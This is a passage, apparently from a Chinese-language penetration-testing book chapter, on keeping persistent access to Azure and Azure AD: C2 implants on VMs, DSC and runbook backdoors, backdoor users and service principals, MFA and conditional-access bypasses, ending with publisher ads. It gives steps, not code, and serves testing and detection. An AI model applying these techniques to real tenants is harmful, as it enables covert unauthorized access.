如果你创建任何新的资源来实现这种持久性，你应该使用现有的标签和资源命名结构来与现有资源融合。一般来说，最好坚持使用订阅中的现有服务来融合，但根据你的选项，你可能必须创建可能超出租户正常基础设施范围的新资源。

#### 使用虚拟机保持持久性

首先，我们将研究如何利用 **虚拟机 (VM)** 来维持对 Azure 环境的访问。由于 VM 通常加入到更大的 Active Directory 域，因此它们可用于在 Azure 和 Active Directory 中保持持久性。

作为入门，我们将介绍使用 **命令与控制 (C2)** 植入物在 Azure VM 上开始持久性的情况。有许多商业和开源工具可用（Cobalt Strike、Covenant、PowerShell Empire 等），这些工具通常用于获取对系统的初始访问。我们可以在 Azure VM 上使用这些初始植入物可执行文件来开始在它们上的持久性工作。

> **重要说明**
>
> 请记住，许多 *现成* 的 C2 工具可能会被端点保护软件捕获。你可能需要在部署到 VM 之前采取额外的步骤来混淆你的有效负载。

这些植入物可以通过以下几种方式部署到 VM：

- 使用 VM `Run command` 功能
- 作为自定义脚本扩展
- 直接通过 RDP 访问系统
- 使用 DSC 配置（我们稍后会介绍）

一旦在这些系统上建立了初始部署和持久性，这些植入物将允许我们在系统上执行命令并维持对 VM 本身的访问。这使我们能够在主机上获得操作系统级别的访问，但并不保证域或 AAD 访问。

由于 C2 植入物的执行很大程度上取决于 VM，因此我们在本章中不会过多关注它。然而，由于我们正在讨论不同的持久性方法，这些方法可能允许在 VM 上执行命令，因此请将其作为一个选项记住。

##### 打开管理端口

作为在虚拟机上使用 C2 植入物的替代方案，我们可以向我们的 IP 地址打开管理端口，以便使用我们已知的凭据远程访问 VM。正如我们之前提到的，有几种方法可以获取（或设置）VM 的本地管理员凭据，我们可以使用这些凭据远程管理系统。

这不是一个理想的解决方案，因为在渗透测试期间向互联网开放端口通常是不好的做法。此外，将端口打开到特定 IP 地址会将你的 IP 地址告知事件响应团队，这将使他们很容易将归因追溯到你的系统。此方法也可以扩展到 Azure PaaS 服务（Azure SQL 数据库、密钥保管库等），但这是一种特别嘈杂的维持访问方法，因此我们建议避免使用，除非你真的需要使用它。

另一个不太嘈杂的选项是在网络安全组中打开端口时指定 Azure 服务标签作为源。服务标签允许我们定义不太可疑的后门。例如，修改网络安全组以允许来自 AzureCloud 服务标签或 AzureCloud.UKSouth 服务标签的 RDP 或 SSH 流量可能对安全运营团队来说不太可疑，同时仍允许来自与指定源匹配的任何 Azure 节点的连接。

##### 添加托管标识

通过向 VM 添加托管标识（系统分配或用户分配），我们可能能够为自己授予对租户中其他 Azure 资源的访问权限以实现持久性。这需要我们执行以下步骤：

- 1. 在 Azure 门户中导航到我们的目标 VM。
- 2. 为 VM 分配系统分配或用户分配的托管标识。
- 3. 在订阅/管理组和/或 Azure AD 级别为托管标识分配额外的权限。从渗透测试的角度来看，我们需要小心不要添加使环境容易受到更广泛攻击的权限。


这一过程将为我们留下一个托管身份，只要我们能访问虚拟机及其附加的托管身份，就可以用它来访问 Azure（以及潜在的 Azure AD）资源。如前所述，这可能是划分长期选项的好机会：使用一个托管身份进行订阅管理，使用另一个托管身份访问 Azure AD：



图8.21 – 关联现有的用户分配托管身份

此外，与使用系统分配的托管身份（事后仍需要授予权限）相比，使用具有我们想要用于持久化的权限的现有用户分配托管身份，可能是更不易引起注意的选择（见图8.21）。

还应注意到，当虚拟机上没有预先存在的托管身份时，这种方法效果最佳。作为测试人员，我们希望避免进行可能干扰现有身份分配的重大状态更改。使用托管身份进行持久化也可以应用于平台即服务（PaaS）服务（应用服务、AKS 等）。

#### 自动化帐户 DSC

虽然这在一定程度上与下一节的内容契合，但自动化帐户服务中的所需状态配置（DSC）功能是一个我们可以用来在 Azure 虚拟机上持久化访问的功能。DSC 功能通常用于确保系统按照所需的配置进行配置，如果该配置发生变化，DSC 将调整配置使其达到所需状态。

通过为虚拟机提供“运行我的恶意可执行文件”的“所需状态”，我们可以确保我们希望在虚拟机上运行的代码被持续运行。

> **重要说明**
>
> 与本节所述技术非常相似的一种技术（使用 VM DSC 扩展与自动化帐户 DSC 对比）已在 NetSPI 博客上由 Jake Karnes 撰写的帖子中更详细地介绍：https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/。

例如，我们可以使用以下过程将虚拟机连接到 DSC 服务并设置*所需状态*，该状态会在虚拟机上运行脚本：

1. 将目标 VM 作为 DSC 节点添加到自动化帐户服务。
2. 上传配置。
3. 编译配置。
4. 将节点配置分配给 VM。
5. 等待 DSC 指示节点不符合要求并运行*修正*脚本。

对于配置，我们有几种*所需状态*选项。从持久化的角度来看，我们希望拥有允许远程访问的配置。以下通用配置可用于确保我们的后门持续运行：

- 文件（`testfile.exe`）应存在于 C 盘的 `C:\testfile.exe` 路径。
- 系统中应有一个从特定路径（`C:\testfile.exe`）运行的进程。
- 如果任一条件不满足，则纠正该条件。

请记住，DSC 可能有点难以配置，但它们在 Azure 界面中隐藏得很好，因此这将有助于隐藏执行过程，并有望为你提供一种不错的持久化方法。

> **重要说明**
> 虽然这种替代方案可能是一种明显的持久化方法，但你可以创建一台 VM 来利用前述任何选项以维持访问。在使用了大量 VM 的环境中，这种技术可能不那么显眼，但在启用了基本监控和警报的环境中，VM 的创建通常会受到监控。

在本节中，我们已经了解了在 Azure 虚拟机上维持持久化的多种方式。在下一节中，我们将了解如何使用自动化帐户在 Azure 环境中维持持久化。

#### 使用自动化帐户维持持久化

顾名思义，自动化帐户可用于自动化 Azure 中的任务。我们已在其他章节中介绍过它们，但这里将再次简要提及，以展示如何将它们用于持久化。

自动化运行方式帐户是弥合 Azure AD（AAD）与订阅级别之间差距的好方法。这些帐户可以在 AAD 和订阅级别分配权限，因此它们可用于多种不同的持久化选项。

由于运行方式帐户可以被分配订阅级角色（所有者、参与者等），我们可以将 runbook 与这些帐户结合使用来访问订阅资源。最好的例子是使用 runbook 在环境中的 VM 上执行命令。假设我们的测试目标是在测试窗口期内保持对 Azure VM 的访问。通过设置一个具有计划作业的 runbook，该作业可以同时在所有 VM 上运行命令，我们就能轻松地持久化这种访问。

除了能够将订阅级角色分配给运行方式帐户外，我们还可以将 Azure AD 角色分配给自动化帐户的运行方式帐户。这使我们能够设置 runbook，添加或修改 Azure AD 用户和角色，以帮助我们维持访问。

> **重要说明**
> 有关自动化帐户可用于持久化的方式的更多信息，请查看 NetSPI 博客上的这篇文章，其中介绍了一种可能的选项：https://www.netspi.com/blog/technical/cloud-penetration-testing/maintaining-azure-persistence-via-automation-accounts/。

下面是一个示例，展示了我们可以使用具有特权 AAD 角色的运行方式帐户做什么：

1. 为运行方式帐户分配特权 AAD 角色（全局管理员、用户管理员等）。
2. 创建一个 runbook，向 AAD 租户添加新用户（使用已知密码）。
3. 在 AAD 中为新用户分配特权角色。
4. 使用该新用户作为访问 AAD 的短期通道。

最后，我们有多种选项来执行这些 runbook 以维持我们的访问。我们之前介绍了使用计划方法，但还有另一种方法可用于启动 runbook。webhook 方法可能是触发你的持久化 runbook 的好方法，即使你已经失去了对环境的访问权限：



图8.22 – 为自动化帐户创建新的 webhook

Webhook 是可用于远程触发自动化帐户 runbook 的 URL。Webhook 的真正好处是能够按需执行它们。虽然计划 runbook 执行很有用，但它确实需要你等待预定时间才能再次运行作业。这会导致 runbook 多次执行，这可能会使持久化方法更受关注。通过使用 webhook，你可以控制 runbook 的运行时间，并限制其执行次数。

虽然自动化帐户在技术上是 PaaS 服务，但它们对持久化非常有用，因此我们将它们单独划分为一个小节。接下来，我们将介绍可用于在 Azure 环境中进行持久化的其他 PaaS 服务。

#### 对 PaaS 服务维持持久化

Azure 中的大多数平台服务需要网络和用户授权才能访问（图8.23）。要使持久化有效，必须分为两个层面——网络持久化和用户持久化：



图8.23 – PaaS 网络和用户访问

平台服务持久化最常见的目标是数据存储或机密存储，例如平台 SQL 数据库、存储帐户、Azure Cosmos DB、容器注册表和密钥保管库。

##### 维持对平台服务的网络持久化

根据资源配置的不同，网络访问可以通过公共端点或专用端点进行（图8.24）。公共端点意味着可以从公共互联网访问该资源，而专用端点意味着可以从 Azure 中的专用虚拟网络访问该资源。

通过公共端点进行持久化涉及修改已配置的授权 IP 范围，使其包含一个 IP 地址。这可以使用任何 Azure 管理工具或使用攻击性工具（如 Lava）来完成。例如，Lava 中的 sql_backdoor_firewall_rule 模块会修改平台 SQL Server 的授权 IP 范围，使其包含指定的 IP（图8.24）。可以想象，这种修改很容易引起安全运营团队的怀疑：



图8.24 – 修改平台服务的授权 IP 范围

对于 Azure SQL 等服务，更巧妙的方法可能是修改防火墙例外网络设置，以允许访问 Azure 服务和资源（图8.25）。此设置允许访问任何 Azure IP 地址，包括属于其他组织的公共 IP 地址！请注意，此行为主要适用于 Azure SQL，不适用于其他具有网络限制的服务，例如存储帐户、密钥保管库或容器注册表。我们建议谨慎使用此方法：



图8.25 – 修改 Azure SQL 防火墙例外


在私有终结点场景中进行网络持久化涉及在连接的虚拟网络中的虚拟机上打开后门。你可以使用本章 *Maintaining persistence with virtual machines* 部分中强调的任何选项来实现此操作。

#### 维持对平台服务的用户持久化

根据资源配置，用户访问可能使用 **基于密钥的访问**，例如访问密钥、**共享访问签名 (SAS)** 令牌，或 **基于身份的访问**，通常使用 Azure AD。我们在 *Chapter 6, Exploiting Contributor Permissions on PaaS Services* 中学习了如何使用 MicroBurst 收获密码和访问密钥。大多数平台服务访问密钥如果被泄露可以很容易地重新生成。

对于 Azure Storage 等服务，可以为持久化生成授予对存储资源特权访问的 SAS 令牌。使用此选项对于安全运营团队来说可能更难检测，因为该操作不会明确记录在 Activity Log 中。

要使用基于身份的授权进行持久化，可以修改 RBAC 角色分配以添加对后门用户的访问。我们将在下一节讨论在 Azure AD 中持久化的选项。

#### 在 Azure AD 租户中持久化

作为任何 Azure 环境的核心，Azure AD 租户是持久化的绝佳目标。一旦我们在租户内提升了权限，我们就有几个选项可以创建（或修改现有）安全主体，以便在环境中持久化。一般来说，在 Azure AD 租户中创建新主体可能会比修改现有资源产生更多警报，但具体情况可能有所不同。

作为持久化的一般路径，我们需要获得对一个身份的访问，确保该身份具有必要的权限，并且（如果需要）创建策略例外以允许对该身份的持续访问。

#### 创建后门身份

虽然我们已经涵盖了几种获得现有账户访问权限的方法（托管身份、明文凭据等），但我们尚未介绍如何在 Azure AD 中创建新身份。回顾第 1 章，Azure Platform and Architecture Overview，我们知道身份可以是以下之一：

- Azure AD 用户
- Azure AD 访客用户
- 托管身份
- 服务主体

由于任何这些身份类型都可以在 Azure AD 租户级别分配角色，因此我们将重点关注如何创建这些身份。

##### 创建新的用户身份

获得 Azure AD 租户后门身份的主要方法是创建新的用户身份。为了避免被检测，我们希望使用与组织现有命名策略一致的属性。为此，需要以下表中突出显示的权限，并且 Azure AD 角色列中列出的内置角色具有此权限。截至撰写本文时，自定义角色不能用于向 Azure AD 中的用户对象分配权限：

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 创建新的用户身份 | microsoft.directory/users/create | - 用户管理员<br>- 全局管理员<br>- 目录编写者 |

Table 8.1 – Roles for creating a new user identity

创建账户时，如果租户配置了多个域名，我们可以指定将使用的域名。本书的作者之一曾遇到 Okta 被设置为主要域的身份提供者 (IdP) 的情况。在那种情况下，使用非主要域（clientname.onmicrosoft.com）创建用户账户会绕过主要 IdP 以及在那里设置的多因素身份验证要求。此用户账户与其他正常账户有所不同，但它是租户中的有效账户。

你可以通过转到 **Azure portal → Azure AD → Custom domain names** 来验证租户域和当前配置的主要域：



Figure 8.26 – Verifying tenant domain names

要创建新的用户账户，我们需要导航到门户中 AAD 刀片的 **Users** 部分并选择 **New user** 选项。创建用户账户时，还需要指定密码。此用户名和密码组合随后可用于向 Azure AD 进行身份验证（它仍需要被授予对角色/资源的访问权限，但我们将在本节后面介绍）。

为了避免被检测，你可以查看审计日志，看看你使用的身份是否通常用于创建 Azure AD 用户账户。身份安全工具，例如身份保护，已知使用预训练的机器学习算法来学习正常用户行为并提醒你异常情况。

你还可以查看 Azure AD 密码保护设置中的组织禁止密码列表，以避免引发可能引起怀疑的警报（**Azure portal → Azure AD → Security → Authentication methods → Password protection**）。

为了识别此事件，安全运营团队可以在 Azure AD 审计日志中查找 Add user 活动类型或操作（**Azure portal → Azure AD → Audit Logs**）。

##### 使用密码创建服务主体

获得 Azure AD 租户后门身份的另一种方法是创建服务主体。默认情况下，所有非访客用户都可以创建服务主体！这是可以在 **Azure portal → Azure AD → User settings → App registrations** 中修改的默认设置：

##### chariscloud20 | User settings

Azure Active Directory

- Mobility (MDM and MAM)
- Password reset
- Company branding
- User settings
- Properties
- Security
- Monitoring



Figure 8.27 – Verifying the app registration settings

如果前述选项在租户中已被禁用，则需要以下表中突出显示的权限。Azure AD 角色列中列出的内置角色具有此权限：

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 创建新的应用程序注册 | microsoft.directory/servicePrincipals/create | - 应用程序管理员<br>- 应用程序开发人员<br>- 云应用程序管理员<br>- 自定义角色目前不能使用 |

Table 8.2 – Roles for creating a new app registration

使用服务主体是绕过许多安全控制（如 MFA、条件访问和特权身份管理设置）的绝佳方式。这是因为服务主体发出的调用不会被条件访问阻止，并且特权身份管理 (PIM) 不支持服务主体。

为了识别此事件，安全运营团队可以在 Azure AD 审计日志中查找 `Add application` 或 `Add service principal` 活动类型或操作（**Azure portal → Azure AD → Audit Logs**）。

##### 将访客用户身份邀请到租户中

获得 Azure AD 租户后门身份的另一种方法是邀请访客用户账户。如果协作限制设置设置为最严格的选项，如以下屏幕截图所示，则会更棘手。此设置可以在 **Azure portal → Azure AD → User settings → Manage external collaboration settings → Collaboration restrictions:** 中找到



Figure 8.28 – Verifying the external collaboration settings

如果是这种情况，尝试修改此选项以添加另一个域很可能会触发警报，因为配置此选项的组织最有可能监控对列表的修改。协作限制修改事件在 Azure AD 审计日志中记录为 `Add policy` 操作。

如果设置已配置为最宽松的选项，我们可以将来自通用域（如 `outlook.com` 和 `gmail.com`）的用户邀请到租户中。默认情况下，任何用户或访客用户都可用于邀请外部身份到租户中（*Figure 8.29*）！

此设置可以在 **Azure portal → Azure AD → User settings → Manage external collaboration settings → Guest invite settings:** 中找到



Figure 8.29 – Verifying the guest invitation settings


需要注意的是，遵循良好安全实践的组织可能会对所有访客身份应用一个整体的条件访问策略（图 8.30），以阻止它们访问敏感应用程序。如果是这种情况，只要我们拥有足够的权限来修改条件访问策略，我们就可以考虑绕过此限制的方法。我们将在本章后面介绍此内容：



图 8.30 – 外部用户的条件访问策略

由于许多组织可能会更密切地关注其租户中的外部身份，因此此选项很容易引起怀疑。为了识别此事件，安全运营团队可以在 Azure AD 审计日志中查找“邀请外部用户”活动类型或操作（Azure 门户 → Azure AD → 审计日志）。

#### 修改现有身份

作为获取后门身份的替代方案，我们将查看如何修改将保留在账户中的现有 Azure AD 身份。由于为现有活跃账户更改密码是一个相当明显的更改，因此我们将首先更改已禁用用户账户的凭据。

如果您需要临时访问特权账户以实现持久化目标，请记住，您需要一个特权角色才能重置目标账户的凭据。例如，您可能希望使用长期持久化账户来重置特权用户的密码，以便在租户中进行短期持久化活动。此路径可能允许临时访问其他账户的资源，但对于防御者来说，追踪发起密码重置的账户应该相当容易。

> **重要说明**
> 这里列出的角色描述来自以下 Microsoft 文档页面：https://docs.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#password-reset-permissions。该页面有一个非常方便的表格，概述了哪些角色有权在 Azure AD 租户中重置其他角色的密码。

#### 向现有服务主体添加密钥

在 Azure AD 租户中建立后门身份的另一种不太可疑的方法是向现有服务主体添加密码。这是在第 4 章《利用 Reader 权限》中使用 PowerZure 练习过的方法之一。要执行此操作，需要拥有该服务主体的账户，或具有以下表格中突出显示的权限的账户。Azure AD 角色列中列出的内置角色具有此权限：

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 向现有服务主体添加密钥 | microsoft.directory/servicePrincipals/credentials/update | - 应用程序管理员
- 混合身份管理员
- 全局管理员
- 自定义角色目前无法使用 |

表 8.4 – 用于向服务主体添加密钥的角色

现在我们已经确定了如何访问用于持久化的身份，让我们看看如何为这些身份分配特权角色。

#### 为身份授予特权访问权限

有了持久化身份的访问权限后，我们将希望为该身份分配角色和特权，以便我们可以使用该身份在租户中操作。首先，我们将看看如何使用现有组来分配特权。

##### 将身份添加到已有的特权组

授予持久特权访问权限的一种直接方法是向特权组添加后门身份。如果特权组具有*已分配的成员类型*，我们可以直接添加该身份。默认情况下，组所有者可以修改组的成员资格。具有以下表格中突出显示的权限的账户可用于修改 Azure AD 中组的成员资格或所有权：

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 更新安全组和 Microsoft 365 组的成员资格。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups/members/update` | - 目录编写者
- 组管理员
- 身份治理管理员
- 用户管理员
- 全局管理员
- 自定义角色目前无法使用 |
| 更新 Azure AD 中安全组的成员资格。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.security/members/update` | - Intune 管理员
- 知识管理员
- 知识管理员
- 自定义角色也可以分配此权限 |
| 更新 Azure AD 中 Microsoft 365 组的成员资格。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.unified/members/update` | - Exchange 管理员
- SharePoint 管理员
- Teams 管理员
- 自定义角色也可以分配此权限 |

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 更新可分配给 Azure AD 角色的组的所有权和成员资格。 | `microsoft.directory/groupsAssign ableToRoles/allProperties/update` | • 特权角色管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |
| 更新安全组和 Microsoft 365 组的所有权。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups/owners/update` | • 目录编写者<br>• 组管理员<br>• 用户管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |
| 更新 Azure AD 中安全组的所有权。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.security/owners/update` | • Intune 管理员<br>• 知识管理员<br>• 知识管理员<br>• 自定义角色也可以分配此权限 |
| 更新 Azure AD 中 Microsoft 365 组的所有权。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.unified/owners/update` | • Exchange 管理员<br>• SharePoint 管理员<br>• Teams 管理员<br>• 自定义角色也可以分配此权限 |

表 8.5 – 用于修改组成员资格或所有权的角色

如果特权组具有*动态用户成员类型*，我们可以修改动态成员规则，使其包含将我们的后门身份添加进去的表达式。我们在构建此表达式时可以发挥创意，并使用一个吸引较少怀疑的属性和值。组所有者无法修改动态成员规则。只有具有以下权限的用户才能修改这些规则：

| 方法 | 所需权限 | Azure AD 角色 |
|---|---|---|
| 更新安全组和 Microsoft 365 组的动态成员规则。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups/dynamicMembershipRule/update` | - 目录编写者
- 组管理员
- 用户管理员
- 全局管理员
- 自定义角色也可以分配此权限 |
| 更新安全组的动态成员规则。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.security/dynamicMembershipRule/update` | - Intune 管理员
- 自定义角色也可以分配此权限 |
| 更新 Microsoft 365 组的动态成员规则。这不包括可分配给 Azure AD 角色的组。 | `microsoft.directory/groups.unified/dynamicMembershipRule/update` | - 自定义角色也可以分配此权限 |

表 8.6 – 用于修改动态成员规则的角色

接下来，我们将回顾如何直接向安全主体添加角色，而不是使用现有组。

##### 将身份分配给特权角色

对于 Azure AD，角色分配可以直接添加或通过 PIM 进行。无论您使用哪种选项，您都需要 `microsoft.directory/roleAssignments/allProperties/allTasks` 权限。


在撰写本文时，只有**特权角色管理员**角色和**全局管理员**角色拥有此权限。如果正在使用 PIM，我们将必须为后门身份创建*活跃*分配，而不是需要激活的*合格*分配。

对于 Azure 资源，可以使用 PIM 或 Azure Blueprint 直接添加角色分配。对于直接角色分配，可以使用以下 Azure 资源角色：**所有者**、**用户访问管理员**、**共同管理员（经典）**和**服务管理员（经典）**。

如果正在使用 PIM，则可以使用**特权角色管理员**角色或**全局管理员**角色。

使用 Blueprint 需要能够创建蓝图定义、发布定义，然后分配它。**所有者**角色拥有此操作所需的全部权限。也可以使用**蓝图参与者**角色和**蓝图操作员**角色的组合。

虽然经验丰富的应急响应人员应该能够快速找到你的持久化账户，但你可以通过在不同身份之间分散角色，在环境中隐藏更长时间。

#### 绕过安全策略以允许访问

尽管我们为访问特权身份付出了所有努力，但如果我们无法访问该身份，这一切都将毫无价值。如果我们不采取适当的步骤，配置了强条件访问策略的 Azure AD 租户将阻止我们访问持久化所需的身份。

以下是我们为确保能持续访问这些账户而可以采取的一些额外措施：

- 通过添加仅适用于后门身份的访问规则来创建条件访问漏洞。
- 在条件访问中将我们的 IP 添加为受信任位置。
- 将我们的 IP 添加到 MFA 受信任 IP 列表中。
- 利用订阅级持久化技术与现有的 AAD 限制配合使用。

这些设置中的每一项都可以在 Azure 门户的 Azure AD 租户部分下，或在你希望持久化的受影响资源下进行配置。与 Azure 环境中的任何其他持久化活动一样，这些更改在某些环境中可能非常明显，因此你的使用方式可能有所不同。


Packt.com

订阅我们的在线数字图书馆，即可完整访问超过 7,000 本图书和视频，以及行业领先的工具，帮助你规划个人发展并推进职业发展。欲了解更多信息，请访问我们的网站。

#### 为什么订阅？

- 通过来自 4,000 多位行业专业人士的实用电子书和视频，减少学习时间，增加编码时间
- 通过专为你打造的技能计划提升学习效果
- 每月获取一本免费电子书或视频
- 完全可搜索，方便获取关键信息
- 可复制、粘贴、打印和添加书签内容

你知道吗？Packt 为每本出版的书提供电子书版本，并提供 PDF 和 ePub 文件。你可以在 packt.com 升级到电子书版本，作为印刷书客户，你有权享受电子书副本的折扣。如需更多详情，请联系我们：customercare@packtpub.com。

在 www.packt.com，你还可以阅读一系列免费技术文章，注册各种免费新闻通讯，并获得 Packt 图书和电子书的独家折扣和优惠。

#### 你可能还喜欢其他书籍

如果你喜欢这本书，你可能会对 Packt 的以下其他书籍感兴趣：



#### 学习 Azure Sentinel

理查德·戴弗、加里·布希

ISBN: 978-1-83898-092-4

- 了解如何设计和构建安全运营中心
- 发现云安全架构的关键组件
- 管理和调查 Azure Sentinel 事件
- 使用剧本自动化事件响应
- 了解如何设置 Azure Monitor Log Analytics 和 Azure Sentinel
- 从云和本地设备将数据引入 Azure Sentinel
- 在 Azure Sentinel 中执行威胁搜寻



#### Microsoft Azure 安全技术认证与进阶

大卫·奥基约德

ISBN: 978-1-80056-265-3

- 在 Azure AD 中有效管理用户、组、服务主体和角色
- 实现 Azure AD 身份安全和治理能力
- 了解平台周边保护如何保护 Azure 工作负载
- 为 IaaS 和 PaaS 配置网络安全最佳实践
- 探索各种防范 DDoS 攻击的选项
- 保护主机和容器免受不断演变的安全威胁
- 使用云原生工具实现平台治理
- 使用 Security Center 和 Azure Sentinel 监控安全运营

#### Packt 正在寻找像你一样的作者

